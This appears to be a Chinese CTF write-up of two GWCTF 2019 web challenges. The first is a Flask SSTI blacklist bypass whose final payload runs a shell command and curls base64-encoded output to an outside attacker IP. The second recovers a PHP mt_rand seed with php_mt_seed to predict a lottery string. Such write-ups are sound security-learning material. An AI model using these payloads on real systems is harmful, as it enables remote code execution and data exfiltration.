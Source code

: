 ```yaml
---
title: GWCTF 2019 复现
date: 2020-04-30
image: 
description: 广东外语外贸大学主办的比赛
categories: 
- ctf_writeup
tags:
- SSTI
- 伪随机数
---
```

之前广外CTF的时候才刚刚接触CTF，当时只做了一道随机数爆破，现在来复现

------

### [你的名字](https://buuoj.cn/challenges#[GWCTF%202019]你的名字)

考点：flaskSSTI、绕过`{{}}`过滤、黑名单过滤逻辑错误

很详细的SSTI>>：https://xz.aliyun.com/t/6885#toc-4

SSTIbypass姿势>>https://p0sec.net/index.php/archives/120/

参考：>>[ggb0n](http://ggb0n.cool/2020/03/04/GWCTF2019复现/)

打开题目，只有一个输入框，联想到注入，不过SQLi尝试之后发现并不行，于是就去尝试SSTI，不过网上的wp说可以通过抓包查看响应头来判断服务器使用的python的模板。

尝试输入{{2*2}}，返回“Parse error: syntax error, unexpected T_STRING, expecting '{' in \var\WWW\html\test.php on line 13 ”

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120170318.png)

不管怎么改，返回的结果都是一样的，说明可能{{}}被过滤了；

但是可以通过 `{%%}` 类似的方式来进行注入，尝试 `{%if 1%}1{% endif%}` ，发现服务器直接给出500错误。。。判断可能有什么过滤

直接输入if，返回结果是：

```
hello !
```

说明if被替换为空了，尝试双写iiff，但是还是被替换为空了，可能是用的循环匹配。

参考了师傅写的wp，fuzz出来的过滤可能是这个样子：

```
blacklist = ['import', 'getattr', 'os', 'class', 'subclasses', 'mro', 'request', 'args', 'eval',
                 'if', 'for',' subprocess', 'file', 'open', 'popen', 'builtins', 'compile',
                 'execfile', 'from_pyfile', 'local','self', 'item', 'getitem', 'getattribute', 
                 'func_globals', 'config']
for no in blacklist:
    while True:
        if no in s:
            s = s.replace(no, '')
        else:
            break
return s
```

考察黑名单过滤逻辑错误，这种过滤，利用黑名单中最后一个词进行混淆来过滤是最好了，即 `if=>iconfigf` ，因为是用黑名单的关键词按顺序来对输入进行替换的，那么最后一个 `config` 被替换之后，过滤也就结束了。

那么我们在所有被过滤的关键词中间都可以插入一个config来避开过滤；

最终playlaod：

```
{% iconfigf ''.__clconfigass__.__mconfigro__[2].__subclaconfigsses__()[59].__init__.__globals__['linecache'].oconfigs.system('curl http://174.0.225.32/?a=`ls \|base64`') %}1{% endiconfigf %}
#相当于把ls的结果进行base64编码后（不然只能显示一行），以curl的方式发送到攻击机
```

flag{a2bc941d-a38d-42bb-97be-fe2440442cdf}

 

 

 

### [枯燥的抽奖](https://buuoj.cn/challenges#[GWCTF%202019]枯燥的抽奖)

考点：PHP逆向脚本、PHP伪随机数爆破

打开题目，叫你猜数据，并且给了前10位：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120170333.png)

随便输一个提交，随即给出源码：

```
<?php
#这不是抽奖程序的源代码！不许看！
header("Content-Type: text/html;charset=utf-8");
session_start();
if(!isset($_SESSION['seed'])){
$_SESSION['seed']=rand(0,999999999);
}

mt_srand($_SESSION['seed']);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
}
$str_show = substr($str, 0, 10);
echo "<p id='p1'>".$str_show."</p>";


if(isset($_POST['num'])){
    if($_POST['num']===$str){x
        echo "<p id=flag>抽奖，就是那么枯燥且无味，给你flag{xxxxxxxxx}</p>";
    }
    else{
        echo "<p id=flag>没抽中哦，再试试吧</p>";
    }
}
show_source("check.php");
```

意思大概是：

一个20次的循环，每次从 `$str_long1` 随机取一个字符，拼接成最后的 `$str` 。

- 当 `mt_rand()` 函数运行的时候，会检查有没有播种 `mt_srand` 如果已经播种了，就直接取随机数，其实这里和C语言一样（PHP底层是C）如果不每次重新播种的话，随机数怎么取都是一样的

我们来写段代码。

```
<?php
mt_srand(12345);
echo mt_rand()."<br/>";
?>
```

我们访问，输出 `162946439` 。

现在代码改为

```
<?php 
mt_srand(12345); 
echo mt_rand()."<br/>";
echo mt_rand()."<br/>";
echo mt_rand()."<br/>";
echo mt_rand()."<br/>";
echo mt_rand()."<br/>";
?>
```

我们再次访问:

```
162946439

247161732

1463094264

1878061366

394962642
```

现在细心的人可能已经发现，第一个数 `162946439` 存在猫腻了。

为什么生成随机数会一样呢？我们多次访问。震惊:
还是

```
162946439

247161732

1463094264

1878061366

394962642
```

其实，这就是伪随机数的漏洞，存在可预测性。

生成伪随机数是线性的，你可以理解为 `y=ax` , `x` 就是种子，知道种子和一组伪随机数不是就可以推y(伪随机数)了吗
当然，实际上更复杂肯定。

我知道种子后，可以确定你输出伪随机数的序列。
知道你的随机数序列，可以确定你的种子。

用到的是爆破，已经有写好的[C脚本](https://www.openwall.com/php_mt_seed/)了。

我们的思路就是根据他给出的10为数据，来爆破他的随机数种子，然后在把剩下的随机数输出

因为是用的php_mt_seed，我们要用他的格式，这是转换成随机数的脚本

```
<?php
$pass_now = "JAfq968Gqy";//给出的密钥
$allowable_characters = '
abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ';//字母表

$length = strlen($allowable_characters) - 1;

for ($j = 0; $j < strlen($pass_now); $j++) {//遍历密钥
    for ($i = 0; $i < $length; $i++) {//遍历字母表
        if ($pass_now[$j] == $allowable_characters[$i]) {
            echo "$i $i 0 $length ";
            break;
        }
    }
}
?>
```

运行，得到

```
45 45 0 61 36 36 0 61 5 5 0 61 16 16 0 61 35 35 0 61 32 32 0 61 34 34 0 61 42 
42 0 61 16 16 0 61 24 24 0 61
```

把php_mt_seed下载解压之后，运行命令：

```
make
./php_mt_seed 45 45 0 61 36 36 0 61 5 5 0 61 16 16 0 61 35 35 0 61 32 32 0 61 
34 34 0 61 42 42 0 61 16 16 0 61 24 24 0 61
```

可以得到他的随机数种子

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120170347.png)

然后我们直接把他原来的代码拷贝过来，种子替换为我们爆破出来的：

```
<?php
mt_srand(591614089);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
}
$str_show = substr($str, 0, 20);
echo $str_show;
?>
```

运行得到一串字符 `JAfq968GqyhRKQTHLc8j` ，开头恰巧就是他给的，提交获得flag

flag{37c86593-2593-4566-b3cd-18081cbe44d0}